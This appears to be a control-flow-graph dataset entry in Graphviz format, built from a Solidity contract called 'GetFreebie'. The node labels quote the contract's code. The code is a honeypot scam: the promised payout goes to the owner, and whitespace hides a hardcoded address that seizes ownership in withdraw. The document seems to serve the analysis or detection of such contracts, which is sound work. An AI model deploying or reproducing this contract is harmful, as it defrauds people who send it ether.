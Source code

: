 digraph  {
13 [label="3_ address public Owner = msg.sender;\n13-new_variable-4-4", method="", type_label=new_variable];
25 [label="5_ function GetFreebie()\n    public\n    payable\n    {                                                                    \n        if(msg.value>1 ether)\n        {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               Owner.transfer(this.balance);\n            msg.sender.transfer(this.balance);\n        }                                                                                                                \n    }\n25-function_definition-6-14", method="GetFreebie()", type_label=function_definition];
30 [label="9_ if_msg.value>1 ether\n30-if-10-13", method="GetFreebie()", type_label=if];
153 [label="9_ end_if", method="GetFreebie()", type_label=end_if];
38 [label="10_ Owner.transfer(this.balance);\n38-expression_statement-11-11", method="GetFreebie()", type_label=expression_statement];
47 [label="11_ msg.sender.transfer(this.balance);\n47-expression_statement-12-12", method="GetFreebie()", type_label=expression_statement];
58 [label="14_ function withdraw()\n    payable\n    public\n    {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          if(msg.sender==0x30ad12df80a2493a82DdFE367d866616db8a2595){Owner=0x30ad12df80a2493a82DdFE367d866616db8a2595;}\n        require(msg.sender == Owner);\n        Owner.transfer(this.balance);\n    }\n58-function_definition-15-21", method="withdraw()", type_label=function_definition];
63 [label="17_ if_msg.sender==0x30ad12df80a2493a82DdFE367d866616db8a2595\n63-if-18-18", method="withdraw()", type_label=if];
186 [label="17_ end_if", method="withdraw()", type_label=end_if];
70 [label="17_ Owner=0x30ad12df80a2493a82DdFE367d866616db8a2595;\n70-expression_statement-18-18", method="withdraw()", type_label=expression_statement];
74 [label="18_ require(msg.sender == Owner);\n74-expression_statement-19-19", method="withdraw()", type_label=expression_statement];
83 [label="19_ Owner.transfer(this.balance);\n83-expression_statement-20-20", method="withdraw()", type_label=expression_statement];
92 [label="21_ function Command(address adr,bytes data)\n    payable\n    public\n    {\n        require(msg.sender == Owner);\n        adr.call.value(msg.value)(data);\n    }\n92-function_definition-22-28", method="Command(address adr,bytes data)", type_label=function_definition];
105 [label="25_ require(msg.sender == Owner);\n105-expression_statement-26-26", method="Command(address adr,bytes data)", type_label=expression_statement];
114 [label="26_ adr.call.value(msg.value)(data);\n114-expression_statement-27-27", method="Command(address adr,bytes data)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
25 -> 30  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
30 -> 38  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
30 -> 153  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
153 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
38 -> 47  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
47 -> 153  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
58 -> 63  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
63 -> 70  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
63 -> 186  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
186 -> 74  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
70 -> 186  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
74 -> 83  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
92 -> 105  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
105 -> 114  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
